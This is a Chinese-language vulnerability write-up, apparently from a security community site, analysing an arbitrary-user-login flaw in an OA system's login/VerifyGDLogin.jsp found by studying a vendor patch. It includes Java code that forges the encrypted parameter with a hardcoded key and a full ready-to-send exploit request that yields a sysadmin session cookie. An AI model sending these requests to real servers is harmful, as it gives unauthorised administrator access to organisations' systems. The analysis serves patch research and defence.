









# 某OA EC9 VerifyGDLogin任意用户登录分析 - 先知社区

某OA EC9 VerifyGDLogin任意用户登录分析

- - -

## 0x01 前言

在跟踪泛微补丁包时发现`Ecology_security_20230725_v9.0_v10.58.3`的`SecurityRuleGdLogin0317`的补丁疑似修复了一个SQL注入，因此跟踪下看看

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129151943-aac0797e-8e87-1.png)

上图为补丁关键操作，看内容像是进行了SQL注入检测，后续分析发现是一处任意用户登录

## 0x02 分析

跟踪关键文件`login/VerifyGDLogin.jsp`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152010-bb4972aa-8e87-1.png)

看源码为从URI中获取`para`、`para1`、`para2`后调用`PoppupRemindInfoUtil.decrypt`对`para2`做解密，然后通过`weaver.login.VerifyGDLogin#getUserCheck`方法进行登录校验

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152019-c065a394-8e87-1.png)

其中`PoppupRemindInfoUtil.decrypt`方法首先会校验`WEB-INF/prop/AESpassword.properties`中的`pwd`项是否为空，不为空则赋值给`var1`，为空则给`var1`赋值`1`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152024-c3286238-8e87-1.png)

然后使用`SM4IntegrationUtil.USE_SM4`方法判断是否启用了国密`SM4加密算法`，如启用则使用SM4解密，否则调用`AES.decrypt`进行解密，默认为`false`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152028-c5e8ff8c-8e87-1.png)

其中`AES.decrypt`方法如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152034-c9381a74-8e87-1.png)

那么加密函数就为`AES.encrypt`，代码如下

```plain
public static String encryptAES_SunJCE(String var0, String var1) {
        byte[] var2 = null;
        try {
            KeyGenerator var3 = KeyGenerator.getInstance("AES");
            SecureRandom var4 = SecureRandom.getInstance("SHA1PRNG");
            var4.setSeed(var1.getBytes());
            var3.init(128, var4);
            SecretKey var5 = var3.generateKey();
            byte[] var6 = var5.getEncoded();
            SecretKeySpec var7 = new SecretKeySpec(var6, "AES");
            Cipher var8 = Cipher.getInstance("AES", "SunJCE");
            byte[] var9 = var0.getBytes();
            var8.init(1, var7);
            var2 = var8.doFinal(var9);
        } catch(NoSuchProviderException var10) {
            var10.printStackTrace();
        } catch(NoSuchAlgorithmException var11) {
            var11.printStackTrace();
        } catch(NoSuchPaddingException var12) {
            var12.printStackTrace();
        } catch(InvalidKeyException var13) {
            var13.printStackTrace();
        } catch(IllegalBlockSizeException var14) {
            var14.printStackTrace();
        } catch(BadPaddingException var15) {
            var15.printStackTrace();
        }
        return var2 == null ? "" : Tools.parseByte2HexStr(var2);
    }
```

生成加密数据的代码

```plain
package test;
import com.pluginweaver.utils.CryptTool;

public class testAesCrypt {
    public static void main(String[] args) {
        //4DUa6Wq9
        //1
        String cryptStr="1";
        String enStr=CryptTool.encryptAES_SunJCE( cryptStr,"4DUa6Wq9");
        System.out.println(enStr);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152041-cd4ac2e2-8e87-1.png)

## 0x03 Exploit

按照前文分析构造好数据包后发送

```plain
POST /login/VerifyGDLogin.jsp HTTP/1.1
Host: 192.168.232.129
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

para=ViewRequest.jsp&para1=123&para2=E4D160ED60A81E804F24EE2AE592D66F
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152047-d0e81512-8e87-1.png)

复制返回的`ecology_JSessionid`访问需要鉴权的接口即可以`sysadmin`登录

```plain
GET /api/hrm/login/getAccountList?__random__=1700633695101 HTTP/1.1
Host: 192.168.232.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Accept: */*
Referer: http://192.168.232.129/wui/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaaOhmJeYzN2NbvHFv1Vy;
Connection: close
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152052-d3e42fa8-8e87-1.png)
